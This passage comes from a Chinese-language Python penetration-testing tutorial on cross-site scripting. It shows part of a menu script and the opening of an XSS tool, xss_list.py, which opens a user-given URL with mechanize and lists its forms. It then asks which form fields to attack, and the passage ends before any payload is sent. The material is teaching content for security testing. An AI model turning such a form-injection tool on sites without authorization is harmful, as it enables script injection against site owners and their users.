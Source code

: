 ```py
  elif(c=='R' or c=='r'):
    retrieve()

  elif(c=='E' or c=='e'):
    exit()
  else:
    print "t Wrong Input"
```

希望你熟悉前面的代码。现在，看看前面代码的输出：

![](img/4f10eadf-1cad-4681-99ed-93cea687ba03.png)

xss_data_handler.py 的输出

前面的截图显示了`mohit.xss`文件的内容；`xss.py`文件限制为两个字段。然而，现在让我们看看不限于两个字段的代码。

`xss_list.py`文件如下：

```py
import mechanize
import shelve
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
#br.set_handle_redirect(False)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
s = shelve.open("mohit.xss",writeback=True)
for form in br.forms():
  print form
list_a =[]
list_n = []
field = int(raw_input('Enter the number of field "not readonly" '))
for i in xrange(0,field):
  na = raw_input('Enter the field name, "not readonly" ')
  ch = raw_input("Do you attack on this field? press Y ")
  if (ch=="Y" or ch == "y"):
    list_a.append(na)
  else :
    list_n.append(na)

br.select_form(nr=0)

p =0
flag = 'y'
```